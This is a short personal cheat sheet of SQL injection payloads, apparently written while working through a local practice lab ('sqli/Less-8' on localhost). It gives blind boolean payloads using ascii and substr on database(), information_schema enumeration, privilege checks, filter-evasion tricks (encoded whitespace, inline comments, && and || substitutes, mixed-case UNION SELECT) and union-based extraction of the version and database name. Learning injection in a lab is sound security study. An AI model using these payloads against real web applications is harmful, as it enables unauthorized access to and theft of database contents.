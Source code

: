 ```sql


http://localhost:81/sqli/Less-8/?id=1' AND (ascii(substr((select database()),1,1))) > 100 --+

everything has to be in ()

for ex: for ascii or for using select in substring or length or anything

(select database())

(ascii((substring((select database()),1,1)))

the same for length and ascii and substring and substr or anyother our select statements have to be enclosed in ()

if you do not know the database just use database() everywhere for information scheme or anything

when selecting table_name from database from information_scheme check LIMIT 0,1 then LIMIT 1,1 to get all table names

to check user privilages for current_user()

SHOW GRANTS FOR 'root'@'localhost'


replacement for or and and is

AND :   &&   %26%26 

OR: || 

try this for comments --+

if only union select does not work add or 1=1 after union select but make the select before union select bogus if only 1 row is being displayed

bypass spaces in sql Blanks = (‘%09’, ‘%0A’, ‘%0C’, ‘%0D’, ‘%0B’ ‘%a0’)

we can also bypass by using comments like so 1'/**/or/**/1=1#

this to enumerate number of rows in users table

select * from users where id = 56 or (1=(select count(1) from users where id = 1))
or 
select * from users where id = 56 or (IF((SELECT count(1) from users where id =1)=1,1,0))

this is another way to check for condition

General select syntax:

UniOn selEct [number of columns] [comment]

ex:
union select 1,2,3,4,5

Examples:
We will assume that there are 2 columns and comlumn 2 can be used to display data on screen.

Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*
```